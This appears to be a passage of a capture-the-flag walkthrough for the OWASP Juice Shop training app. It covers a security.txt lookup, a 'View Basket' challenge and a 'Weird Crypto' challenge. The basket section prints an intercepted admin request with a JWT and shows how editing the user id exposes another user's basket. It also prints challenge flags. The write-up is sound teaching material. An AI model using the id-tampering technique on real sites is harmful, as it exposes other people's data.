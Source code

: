 [security.txt](https://securitytxt.org/) is a proposed standard which allows websites to define security policies. The file is recommended to be placed inside the .well-known directory.

```shell
$ curl localhost:3000/.well-known/security.txt
Contact: mailto:donotreply@owasp-juice.shop
Encryption: https://keybase.io/bkimminich/pgp_keys.asc?fingerprint=19c01cb7157e4645e9e2c863062a85a8cbfbdcda
Acknowledgements: /#/score-board
```

## View Basket
### View another user's shopping basket.
Using FoxyProxy and Burp Suite, intercept a packet of a logged in user going to their basket. We use admin here, and from the administration page we know admin has ```1``` as their user id. We can see in the following request, that baskets are stored by user id (e.g. ```GET /rest/basket/1```).
```
GET /rest/basket/1 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: io=JAxjrx9sxN2PvPa7AAAE; language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=bKZ8yYJg36bORLxl5zMNanDAo9TjiyOUzYH18GPXj2mErq7VeQpokW9v14Bw; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
If-None-Match: W/"51e-g+L4GWuN4lWam4EZuNC1rOU8MLg"
```
To solve this challenge, simply alter ```1``` to be any other valid user id. If you are still capturing, you'll get your receipt.
```
42["challenge solved",{"key":"basketAccessChallenge","name":"View Basket","challenge":"View Basket (View another user's shopping basket.)","flag":"e6982b34b6734ceadd28e5019b251f929a80b815","hidden":false}]
```

## Weird Crypto
### Inform the shop about an algorithm or library it should definitely not use the way it does.

Mention MD5 in the comment of Customer Feedback, and the challenge is solved.
